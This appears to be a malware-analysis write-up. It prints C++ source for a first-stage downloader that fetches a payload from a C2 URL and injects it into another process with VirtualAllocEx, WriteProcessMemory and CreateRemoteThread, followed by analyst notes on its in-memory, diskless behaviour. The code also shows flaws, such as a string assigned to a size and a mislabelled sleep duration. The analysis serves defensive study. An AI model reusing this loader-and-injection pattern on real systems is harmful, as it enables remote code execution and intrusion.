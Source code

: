 ```cpp
    HANDLE hProcess;
    SIZE_T dwSize = "<YOURSHELLCODESIZE>";
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 414); // What process is this? I mean, this is a very specific PID.
    const char* c2URL = "http://1.1.1.1/index.raw";
    IStream* stream;
    char buff[510];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);

    while (true) {
        stream->Read(buff, 510, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);

    cout << "[+] Memory Allocated at:" << memAddr << "\n";

    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);
    
    cout << "[+] Number of bytes written: " << bytesOut << "\n";

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    stream->Release();
	 return 0;

}

int main() {
    sleep(120000); // sleeps for 2 minutes.
    downloadAndExecute();
    return 0;

}
```

##### Modelling of the Downloader's action AFTER `Sleep`:

![](/assets/img/Pasted image 20230128160244.png)

	- Note that actions in this Modelling doesn't occur until AFTER the sleep time.

- Note that this source code seems to be a 1st stage of a `Downloader`.
- It gets its 2nd stage from the C2 `http://1.1.1.1/index.raw`
- Upon downloading the 2nd stage, we know that this 1st stage has its own process.
- What it seems to do is that it absorbs all the bytes from the downloaded file but it ***DOES NOT TOUCH THE DISK!*** (I guess the adversary presumes that the host has AV solution(s) most likely through enumeration.)
- The bytes from this file gets stored at "`buff`" char variable with a size of **510 bytes**.
- Also notice that the program allocates a memory on a remote process with a `PID of 414`. I think what it is trying to do in here is **Process Hiding** on a legitimate process?
- After that, it copies the malicious payload onto the memory allocated on the remote process, create a new thread in it and let go of the created thread to execute the malicious payload "`in-memory`".
